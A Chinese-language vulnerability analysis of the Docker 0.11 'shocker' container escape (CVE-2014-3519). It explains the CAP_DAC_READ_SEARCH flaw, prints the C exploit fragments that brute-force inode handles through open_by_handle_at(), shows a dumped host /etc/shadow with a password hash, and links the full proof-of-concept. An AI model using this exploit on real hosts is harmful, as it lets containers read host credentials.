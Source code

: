 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过

##组件介绍：
docker是一个开源的容器引擎，它对LXC进一步的封装，达到操作系统层面上的虚拟化

##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前的版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。有关CAP_DAC_READ_SEARCH请查阅[capabilities的文档](http://man7.org/linux/man-pages/man7/capabilities.7.html)
关于CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如上可知open_by_handle_at函数可以读取任意文件和文件夹

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中的文件或者目录的文件描述符
- file_handle 描述一个文件或者目录
[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下：
           struct file_handle {
               unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
               int           handle_type;    /* Handle type [out] */
               unsigned char f_handle[0];    /* File identifier (sized by
                                                caller) [out] */
           };
- flags   The flags argument is as for open(2).

file_handle结构中f_handle[0]为8位inode号，在大多数的文件系统中，根目录的inode号为2，这样，攻击者可以通过打开根目录比较目录名和文件，遍历inode号达到查看任意文件的目的

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开随意文件，获得文件描述符

    //打开宿主机器上的随意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程，涉及到：
查找目录：

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
这个过程找到/etc目录，得到/etc的inode号

暴力试验inode数字，找到文件：

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：
docker version 版本<=0.11均存在漏洞
[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证

##影响版本：
docker版本<= 0.11 均存在漏洞

##相同漏洞：CVE-2014-3519

##参考链接：
http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
http://man7.org/linux/man-pages/man7/capabilities.7.html
http://stealth.openwall.net/xSports/shocker.c
https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek
